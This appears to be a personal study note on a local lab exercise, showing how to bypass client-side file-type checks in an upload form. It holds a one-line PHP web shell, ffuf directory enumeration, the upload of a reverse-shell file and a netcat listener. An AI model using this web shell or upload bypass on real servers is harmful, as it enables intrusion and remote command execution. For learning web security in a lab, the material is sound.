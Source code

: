 
check the types of file that can be uploaded

only .jpg and .png allowed

***open network tab and see if any request going when you try to upload wrong type of file
if no request in network tab then file type checking done on client side 
else if any requests in network tab when we try to upload wrong type of file means checking done on server side***

***If checking done on client side, send correct file type, intercept the request, modify the file type and data and forward it and see if it is accepted  
OR 
Disable JS so the check will never happen then send the file***

here this method works as we upload png, intercept the request and change it to a php file


![[Pasted image 20230716002007.png]]


![[Pasted image 20230716001923.png]]

![[Pasted image 20230716002046.png]]



we are able to intercept the request, change the file type to .txt and forward it


```php
<?php system($_GET['cmd']);?>
```

dont forget ;
system is a function that executes the commands
$_GET gets the parameter passed inside GET request

![[Pasted image 20230716002507.png]]

![[Pasted image 20230716002558.png]]

now need to check where the file has been uploaded

```sh
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://localhost/FUZZ 
```

/labs gives 301 so FUZZ that as well

```sh
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://localhost/labs/FUZZ 
```

/uploads gives 301 response code

![[Pasted image 20230716003416.png]]

need to pass the parameter

![[Pasted image 20230716003501.png]]

![[Pasted image 20230716003538.png]]



For reverse shell upload rev.php

![[Pasted image 20230716003859.png]]

![[Pasted image 20230716003923.png]]


setup netcat

```sh
nc -nvlp 4444
```

go to
localhost/labs/uploads/rev.php

![[Pasted image 20230716004045.png]]



